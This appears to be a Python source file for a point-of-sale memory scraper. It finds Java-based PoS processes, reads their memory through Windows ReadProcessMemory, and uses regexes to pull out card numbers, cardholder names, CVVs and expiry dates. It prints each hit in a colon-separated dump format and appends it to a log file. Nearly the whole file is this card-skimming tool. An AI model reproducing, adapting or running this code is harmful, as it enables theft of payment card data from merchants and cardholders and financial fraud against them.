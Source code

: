 import re
import ctypes
import time
import threading
import logging
from queue import Queue
import psutil  # For scanning running processes

# Initialize memory queue and running flag
memory_queue = Queue()
running = True

# Process access rights
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Regex patterns for card information
CARD_NUMBER_PATTERN = r'\b(?:\d[ -]*?){13,16}\b'  # Example pattern for 13-16 digit card numbers
CVV_PATTERN = r'\b\d{3,4}\b'  # Typical CVV pattern (3 or 4 digits)
EXPIRY_DATE_PATTERN = r'\b(0[1-9]|1[0-2])\/([0-9]{2})\b'  # Expiry date pattern (MM/YY)
NAME_PATTERN = r'[A-Z][a-z]+ [A-Z][a-z]+'  # Simple pattern for detecting names (First Last)

# Function to scan a memory chunk for card info
def scan_memory_chunk(memory_chunk):
    valid_cards = []
    
    # Search for potential card numbers
    card_numbers = re.findall(CARD_NUMBER_PATTERN, memory_chunk)
    
    for card_number in card_numbers:
        # Search for associated CVV, Expiry Date, and Name
        cvv = re.search(CVV_PATTERN, memory_chunk)
        expiry_date = re.search(EXPIRY_DATE_PATTERN, memory_chunk)
        name = re.search(NAME_PATTERN, memory_chunk)

        if card_number and cvv and expiry_date and name:
            card_info = {
                'Card Number': card_number,
                'Name': name.group(),
                'CVV': cvv.group(),
                'Expiry Date': expiry_date.group()
            }
            valid_cards.append(card_info)
    
    return valid_cards

# Worker thread that processes memory chunks for a specific process
def memory_scan_worker(process_handle, pid):
    while running:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            # Check if the address is still valid and if we can read memory
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                print(f"[PID {pid}] Scanning memory region at address {base_addr} with size {size}")
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        formatted_output = f"[PID {pid}] {card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
                else:
                    print(f"[PID {pid}] No valid card data found in this memory region.")
            else:
                # Handle the case where ReadProcessMemory fails
                logging.warning(f"[PID {pid}] Failed to read memory at {base_addr}: Address may not be valid or accessible.")
                print(f"[PID {pid}] Failed to read memory at address {base_addr}.")
        except Exception as e:
            logging.error(f"[PID {pid}] Error reading memory at {base_addr}: {e}")
            print(f"[PID {pid}] Error reading memory at address {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Function to automatically detect PIDs of relevant processes (e.g., javaw.exe)
def get_relevant_pids():
    relevant_pids = []
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            # Check for processes that might be related to PoS software
            if 'javaw.exe' in proc.info['name'] or 'your_process_name.exe' in proc.info['name'] or 'java' in proc.info['cmdline']:
                print(f"Detected relevant process: {proc.info['name']} (PID: {proc.info['pid']})")
                relevant_pids.append(proc.info['pid'])
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
            continue
    return relevant_pids

# Function to retrieve memory regions of a given process
def get_memory_regions(pid):
    """ Retrieves the memory regions of the specified process. """
    memory_regions = []
    
    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
    if not process_handle:
        print(f"Could not open process with PID {pid}.")
        return memory_regions
    
    # MEMORY_BASIC_INFORMATION structure
    class MEMORY_BASIC_INFORMATION(ctypes.Structure):
        _fields_ = [("BaseAddress", ctypes.c_void_p),
                    ("AllocationBase", ctypes.c_void_p),
                    ("AllocationProtect", ctypes.c_ulong),
                    ("RegionSize", ctypes.c_size_t),
                    ("State", ctypes.c_ulong),
                    ("Protect", ctypes.c_ulong),
                    ("Type", ctypes.c_ulong)]
    
    mbi = MEMORY_BASIC_INFORMATION()
    address = 0
    while ctypes.windll.kernel32.VirtualQueryEx(process_handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
        if mbi.State == 0x1000:  # MEM_COMMIT
            # Consider only readable regions (PAGE_READWRITE, PAGE_READONLY)
            if mbi.Protect in (0x04, 0x02):
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
        
        address += mbi.RegionSize

    ctypes.windll.kernel32.CloseHandle(process_handle)
    return memory_regions

# Main function to scan memory of automatically detected processes
def scan_process_memory(num_threads=4):
    pids = get_relevant_pids()
    
    if not pids:
        print("No relevant processes found.")
        return

    for pid in pids:
        print(f"Starting memory scan for PID {pid}")
        memory_regions = get_memory_regions(pid)
        if not memory_regions:
            print(f"[PID {pid}] No valid memory regions found.")
            continue

        process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not process_handle:
            logging.error(f"[PID {pid}] Could not open process.")
            print(f"[PID {pid}] Could not open process.")
            continue

        # Start threads for each process
        threads = []
        for _ in range(num_threads):
            t = threading.Thread(target=memory_scan_worker, args=(process_handle, pid))
            t.daemon = True  # Allow threads to exit when the main program does
            t.start()
            threads.append(t)

        try:
            while running:
                # Keep scanning new memory regions in a loop
                new_memory_regions = get_memory_regions(pid)
                for region in new_memory_regions:
                    print(f"[PID {pid}] Adding memory region to queue: {region}")
                    memory_queue.put(region)

                time.sleep(5)  # Delay between scans to reduce CPU usage

        except KeyboardInterrupt:
            print(f"Stopping the memory scan for PID {pid}...")
        finally:
            for t in threads:
                t.join()
            ctypes.windll.kernel32.CloseHandle(process_handle)

    print("All memory scans completed.")

# Example usage
if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO, filename='memory_scan.log', filemode='a', format='%(asctime)s - %(message)s')

    # Start scanning memory for relevant processes
    scan_process_memory(num_threads=4)
